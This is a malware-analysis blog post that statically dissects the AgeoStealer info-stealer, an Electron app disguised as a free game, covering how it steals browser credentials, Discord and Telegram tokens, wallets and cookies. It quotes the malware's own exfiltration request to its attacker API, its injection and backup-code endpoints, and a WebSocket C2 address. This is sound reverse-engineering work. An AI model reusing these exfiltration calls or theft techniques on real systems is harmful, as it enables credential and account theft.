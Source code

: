 ```yaml
---
layout: post
title: 'AgeoStealer malware - static analysis'
date: 2023-07-07
tags:
  - Malware Analysis
  - Reverse Engineering
permalink: /ageo_info_stealer_static_analysis/
toc: true
---
```


Ageo (or Space) stealer is info stealer malware distributed as electron based 64bit app and posed as a "free game".
but as we know there's nothing for free, specially when it comes from an untrusted source or developer. today we'll perform a static analysis trying to dissect this app.

first step to identify some facts about this executable we have, we just use [DIE](https://github.com/horsicq/Detect-It-Easy) which detected it as a `NullSoft` installer.

![die](/images/nullsoft-installer.png)

as we already know that electron based application - you can check that as well by using DIE on `build.exe` file - are just compressed inside that installer executable, so next step is to uncompress it! and instead of working on the binary file, we can check `resources` directory where the actual javascript code is contained.

![content_of_application](/images/content_of_application.png)

inside that, it was straight forward that we have `app.asar` and [ASAR extension](https://github.com/electron/asar) is a simple extensive archive format. but to uncompress i used a [7zip plugin](https://www.tc4shell.com/en/7zip/asar/) and then jump into the resulted `app` to see that we have the javascript files we're interested in. we can see inside that directory and by checking `main.js` we can see it does nothing except call the function exported by `coreAES.js` file. 

![main_file_content](/images/main_js.png)

and when it comes to `coreAES.js` itself, it seems it decrypts a JS payload which was encrypted using AES but thanks to the malware author we have already the key and the function to decrypt the payload!!

![core_aes_file_content](/images/coreAES.png)

so basically we don't need to make any effort to decrypt that payload more than just copying the same function to local or [remote](https://www.tutorialspoint.com/execute_nodejs_online.php) IDE with NodeJs support and just run it with just editing the last line, so instead of it returns the decrypted payload it just prints it!

Ok, so i think we now are ready to go completely static here, since we already got the whole code in JS infront of us. just i'd like to share that virus total report at the time i did the analysis first time (06-07-2023) showed that it was detected only by less than 30% of the AVs although the malware was created on 2018!! it was just detect June-July! [virus total report](https://www.virustotal.com/gui/file/dca13fc006a3b55756ae0534bd0d37a1b53a219b5d7de236f20b0262f3662659/detection) 

anyway, let's take a look at the JS code was decrypted and check what this nasty malware did over the past 5 years in the wild.

**SPOILER ALERT!!** the decrypted payload is 2500+ LOC !! so we wouldn't like to paste it here but you still can take a look at it on my github repo [decrypted_payload](https://github.com/walidbarakat/Mal-Sample/blob/master/AgeoStealer/decrypted_script.js) i tried to make it a little readable.

first thing usually i'm looking in any code subject of analysis is the headers/imports/constants that resides in the beginning of the file trying to get an idea what is waiting for me down there, and in our case here, it's pretty forward what's the script intentions. you can see `adm-zip`, `clipboardy` and `discord.js` and be pretty sure there will be clipboard cach and autofills extraction, and we're expecting to see the data been sent to some discord webhook or commands came from there, or both!
and one line ofter that - marked between two red lines - we can see the developer's domain API and websocket url and authentication key! so good luck for hunters ..

![naked_api_creds](/images/naked_api_creds.png)

then as the name indicates .. it tries to steal password data from the listed browsers : 

![targeted_browsers](/images/targeted_browsers.png)

then it appears the developer trying to use some obsucre variables names like this **const _0x9b6227 = {}** so before going further i tried to track down this "hex" var name in the code and check if it can explain it self. and it did actually pretty easy by noticing it's assigned directly to another const after it was initialized **const count = _0x9b6227** but as we will see few of these name so basically i'll just hunt them one by one and rename each of them to be more descriptive as it's useful for the reverse eningeering process. it'll be changed to be `_(VAR_NAME)` so for example `_0x9b6227` will be `_COUNT` and `_0x4ae424` will be `_EXTENSIONS` and so on.

then by quick look over the `decrypted.js` we can find the class `SpaceStealer` is where the setup functions are called and it let's break down its functionality step by step:

1. Constructor: This is the initialization function that runs when an instance of the class is created. It performs the following actions in order:
   - Calls several methods such as :
     - `setToStartup()` : downloads `Ageox2IC58pd6m1C73x.exe` to startup folder. i tried to get that file, but it was 0 KB file ..
     - `killgoogle()` : just kill google chrome browser process, i think this to clear the browser encrytpion keys from the memory and to prepare for what's next.
     - `getEncrypted()` :  gets the encrypted browser data and for each profile, access `Local State` file which contains a JSON object with an os_crypt property that holds the encrypted key.
						   then decrypt the data using power shell to utilize `System.Security.Cryptography.ProtectedData.Unprotect` to perfroms the decryption.

		![retrieve_enc_keys](/images/retrieve_enc_keys.png)

     - `SubmitTelegram()` : checks if Telegram desktop app is installed and then find, compress and submit session files to the it's webhook as a `FormData`.
     - `stealltokens()` : find and steal tokens of several apps and (discord, lightcord and other known browsers). submit it also to the webhook, but this time as a http post request.
	 				      
		![steall_tokens](/images/steall_tokens.png)

     - `StealTokens()` : this time steals the tokens from `Local Storage\leveldb` which is on-disk key-val database for each targeted app. but this time sends the collected tokens to the API through get request **httpx.get(`${api_url}/api/grabuser?token=${token}&ip=323232&auth=${api_auth}`)**
	 					
     - `InfectDiscords()` : infects [BetterDiscord](https://betterdiscord.app/) `betterdiscord.asar` installation file - if it exists and replace BetterDiscord's `api/webhooks` occurences with `spacestealerxD` but mainly it targets `discord_desktop_core\index.js` file and overwrite it with the injection data recieved from this API `http://ageostealer.wtf/api/injection2`

		![injection_data](/images/injection_data.png)

     - `RestartDiscords()` : restart Discord to apply changes. 
     - `SubmitBackupCodes()` : search for Discord backup codes - text files - in Downloads, Desktop or Documents directories and send as a post request to `https://ageostealer.wtf/api/backupcodes?auth=${api_auth}`
     - `SubmitExodus()` : search for exodus wallet. if found, compress it and submit it to the webhook.
	 - `SubmitGrowtopia()` : same as Exodus.
	 - `getExtension()` : looking for extensions/wallets - previously define - and if copy all the found ones to a folder named `Wallets` but seems nothing more.
	 	
		![unuseful_wallets](/images/not_useful_wallets.png)

	 - `getCookiesAndSendWebhook()`: get cookies database, decrypte it and looking for instagram and roblox cookies and then submit it to the webhook.
	 - `getPasswords()`: looks for passwords in browsers paths.
	 - `getCardData()` and `getAutofills()`: copies "Web Data" file to a newly created ".db" file, query it and then submit it to webhook url.
	 - `subautofill()` and `subpassword()` : submit the data collected by `getPasswords()` and `getAutofills()`, these data are save in the previously created random path in form of text files.<br/><br/>

2. WebSocket Setup: It creates a WebSocket connection to `ws://213.255.247.174:3200`. It listens for events such as `open`, `close`, and `message`. When the connection is established, it sends a JSON payload containing the `api_auth` key, `os.hostname()`, and the event `open`. It also awaits the `UpdateInformation` function before continuing. WebSocket Event Handlers: The code defines event handlers for different WebSocket events:
   - `open` event: When the WebSocket connection is established, it sends a JSON payload to the server containing the `api_auth` key, `os.hostname()`, and the event `open`. It also awaits the `UpdateInformation` function.
   - `close` event: If the WebSocket connection is closed, the code calls the `exit()` function.
   - `message` event: When a message is received from the WebSocket server, it parses the JSON message and performs different actions based on the value of the `message['task']` property. These actions include executing commands, retrieving clipboard data, reinfecting Discords, obtaining passwords, submitting cookies, and submitting backup codes.

Overall, that's the normal and expected from an information stealer malware.

Now we have a good idea about the functionality of the malware, but from this point we can consider we already aware of the functionality and communication of the malware, even if i couldn't get the change to get `Ageox2IC58pd6m1C73x.exe` the file is downloaded to be set in as a startup process. BUT right after the call for the constructor of `SpaceStealer` class we hit the following obfuscated code, i managed to create a general idea about it's control and data flow but nothing really useful so far - let's say it's like 30% of the process of deobfuscation - it's obvious to see there's a URI to be decoded `decodeURIComponent` and the obsucation using self-refrencing calculation and stirng manuplation.  

here's the origin code looks like [stub_one_line.js](https://github.com/walidbarakat/Mal-Sample/blob/master/AgeoStealer/stub_one_line.js)

i spent sometime trying to analyse that code, and although i couldn't deobsucated it totally, but i think i make a good result with a very important function in my opinion `_0x434e`. maybe if i managed to get better result, i can share it. but for now, this one line code has a trick against anyone who want to take a look and by default this person would like to use a one click beautify feature. **This obsucated code can over flow your heap if your run it in beautified format!**, look at this  
![heap_overflow_in_case_of_beatuify](/images/heap_overflow_in_case_beautify.png)

A sub-function of `_0x434e` is using the literal text definition of the function in the original formate to decode the uri components. yes, it's the only function written in plain english text among this obuscated code `decodeURIComponent`. but unfortunately, such nice obuscated code can just be run solely and print the string passed to the strange run() function at the very end of the code `_0x1db47d` which will output one object `{ webhook: 'https://REPLACE_ME_WEBHOOK' }` only, which was already in `config.js` file in resources directory. till now i'm not sure if that's it or that obuscated code does something more!